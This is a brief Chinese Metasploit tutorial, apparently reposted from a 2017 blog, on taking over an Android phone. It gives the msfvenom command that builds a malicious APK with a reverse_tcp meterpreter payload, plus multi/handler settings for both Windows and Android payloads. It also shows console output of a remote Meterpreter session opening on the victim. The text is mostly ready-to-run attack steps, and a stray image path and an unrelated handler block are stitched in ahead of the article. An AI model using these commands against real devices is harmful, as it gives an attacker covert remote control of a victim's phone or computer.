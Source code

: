 ### 监听设置

```
msfconsole



use exploit/multi/handler



set payload windows/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```

# MSF初体验—入侵安卓手机

Jimny 2017-06-27 [原文](https://www.shuzhiduo.com/link/Vkd6bEVNUjhKYg==)

1.生成apk程序

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 R > apk.apk

2.启动msfconsole

3.启动use exploit/multi/handler模块

4.set payload android/meterpreter/reverse_tcp

5.show options

6.准备工作

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101
msf exploit(handler) > set LPORT 5555
LPORT => 5555
msf exploit(handler) > exploit（运行apk程序）

[*] Started reverse TCP handler on 192.168.1.101:5555
[*] Starting the payload handler...
[*] Sending stage (63194 bytes) to 192.168.1.105
[*] Meterpreter session 1 opened (192.168.1.101:5555 -> 192.168.1.105:57629) at 2017-06-27 22:25:09 +0800
